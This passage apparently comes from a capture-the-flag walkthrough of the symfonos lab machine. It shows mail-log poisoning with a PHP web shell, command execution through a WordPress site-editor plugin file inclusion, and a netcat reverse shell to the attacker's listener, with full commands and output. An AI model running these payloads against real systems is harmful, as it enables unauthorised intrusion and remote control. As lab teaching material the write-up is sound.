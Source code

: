 With the helios mail address, we will try to send you an email with an injected web shell, as shown below:

```console
root@kali:~$ nc 192.168.179.135 25 
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
VRFY helios@symfonos.localdomain 
252 2.0.0 helios@symfonos.localdomain
MAIL FROM:s4rgaz@mail.com
250 2.1.0 Ok
RCPT TO:helios@symfonos.localdomain 
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
<?php passthru($_REQUEST['cmd']); ?>
.
250 2.0.0 Ok: queued as C062B40833
quit
221 2.0.0 Bye
```

Then we try to execute the uname command by sending it as a parameter and we get the result.

```console
root@kali:~$ curl -s http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/helios\&cmd=uname%20-a
...

Linux symfonos 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1+deb9u3 (2019-06-16) x86_64 GNU/Linux

{"success":true,"data":{"output":[]}}
```

**Getting a reverse shell**

Set up a netcat listener on port 443 and run the netcat reverse shell, and finally we have a low privileges shell.

```console
root@kali:~$ curl -s http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/helios\&cmd=nc%20192.168.179.1%20443%20-e%20/bin/bash
```

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.135] 47738
which python
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash")'
<ite-editor/editor/extensions/pagebuilder/includes$ id
id
uid=1000(helios) gid=1000(helios) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
```
